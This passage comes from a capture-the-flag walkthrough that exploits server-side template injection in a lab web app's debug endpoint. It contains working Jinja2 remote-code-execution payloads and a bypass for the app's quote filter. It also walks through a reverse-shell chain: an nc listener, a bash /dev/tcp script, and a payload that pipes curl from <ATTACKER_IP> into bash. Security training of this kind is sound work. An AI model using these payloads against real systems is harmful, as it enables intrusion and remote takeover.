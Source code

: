 We can test for SSTI by executing the statement `{{7*7}}` on `super.thm:7777/debug`:

![379812f957819f7b9d8aaf365c034c36.png](/resources/deff97f9b3a44195b26c68c7e0ac5cb4.png)

Then when we check `super.thm:7777/debugresult` we should get `49` as a result if it is vulnerable to SSTI:

![e0303dca25c39a7f40e5352788172630.png](/resources/88e24dfa905e422dbbdf907d18007f8d.png)

To exploit this I will be using payloads from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---remote-code-execution).

If we check 'source.py' again we will find a filter on lines 11 and 12:

```
def illegal_chars_check(input):
    illegal = "'&;%"
```

It's only filtering single quotes `'` so we can just replace them with double quotes `"`.

We can use this payload to test for remote code execution on `super.thm:7777/debugger`:

`{{ self.__init__.__globals__.__builtins__.__import__("os").popen("id").read() }}`

![b6a06c26a7115df506cf049980157144.png](/resources/a7dcbeca9f9d49a4a1e7b263a0f31b26.png)

And check the result on `super.thm:7777/debuggeresult`:

![8e8b469896d9eb680bcb3d84c03b9bf0.png](/resources/72b83cf42ba6463cb6be50d17d1bf31a.png)

To get a reverse shell we first start a listener using [nc](https://linux.die.net/man/1/nc):

```
$ nc -nvlp 4444
```

Create a bash script for the reverse shell and save it as 'shell.sh':

```
bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1"
```

Then host the bash script using Python:

```
$ python3 -m http.server 8888
```

On `super.thm:7777/debugger` we send the payload:

`{{ self.__init__.__globals__.__builtins__.__import__("os").popen("curl <ATTACKER_IP>:8888/shell.sh | bash").read() }}`

![91316b6930801705de2dfd7f611d112a.png](/resources/63a67a101029489293a355be43afc83b.png)

The payload can also be encoded using `base64` to bypass the filter and then piped to `bash`.

We first encode the reverse shell command using `echo` and pipe it to `base64`:
